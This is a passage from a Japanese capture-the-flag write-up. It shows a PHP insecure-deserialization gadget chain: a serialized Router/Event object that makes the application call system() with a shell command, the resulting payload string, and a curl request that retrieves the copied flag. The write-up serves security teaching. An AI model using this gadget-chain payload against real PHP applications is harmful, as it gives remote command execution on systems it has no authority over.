 ```php
    $event = new \Core\Event();
    $event->callback = 'system';
    $event->args = ['cp /flag_* /var/www/html/uploads/flag.txt'];

    $router = new \Core\Router();
    $router->event = $event;

    echo serialize($router) . PHP_EOL;
}
```

この PHP スクリプトを実行すると、以下の出力が得られます。

```text
O:11:"Core\Router":1:{s:5:"event";O:10:"Core\Event":2:{s:8:"callback";s:6:"system";s:4:"args";a:1:{i:0;s:41:"cp /flag_* /var/www/html/uploads/flag.txt";}}}
```

これを (2) の機能を利用して app_settings テーブルの id が 1 であるレコードの settings カラムに格納してページを開くと、指定したコマンドが実行されます。
上記 Gadget Chain では `/flag_<randomstr>.txt` を /var/www/html/uploads/flag.txt へコピーするコマンドを実行します。

最後に、コピーされたフラグを取得します。

```console
$ curl http://localhost:8093/uploads/flag.txt
flag{wh47'5_y0ur_fav0r173_s3r14l?}
```

フラグ `flag{wh47'5_y0ur_fav0r173_s3r14l?}` を取得することができました。

## References

- [Nginx - HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/nginx.html#alias-lfi-misconfiguration)
- [PHP Deserialization - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/PHP/)
